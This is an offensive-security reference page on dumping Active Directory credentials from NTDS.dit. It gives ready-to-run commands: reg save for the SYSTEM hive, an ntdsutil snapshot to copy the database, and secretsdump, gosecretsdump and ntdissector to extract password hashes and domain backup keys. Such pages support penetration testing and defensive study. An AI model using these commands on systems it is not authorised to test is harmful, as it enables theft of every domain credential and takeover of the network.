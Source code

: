 # NTDS Secret Extraction

## Theory

### NTDS Secret

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/password-spraying), [stuffing](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/stuffing), [shuffling](https://www.thehacker.recipes/a-d/movement/credentials/shuffling), [cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking), [pass-the-hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth), [overpass-the-hash](https://www.thehacker.recipes/a-d/movement/kerberos/ptk) or [silver or golden tickets](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets).



***

## Practical

### Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD Maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="info" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Secrets Dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

#### [Impackt's Secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```
./secretsdump.py -ntds ~/Downloads/regbackup/ntds.dit -system ~/Downloads/regback/SYSTEM LOCAL
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Impacket's Secretsdump Output</p></figcaption></figure>

#### [Ntdissector](https://github.com/synacktiv/ntdissector)

```
# Dump users, groups and domain backup keys
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f user,group,secret

# Dump all records from the database
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f all
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Ntdissector's Output</p></figcaption></figure>

***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds](https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds)
* [https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
* [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
* [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

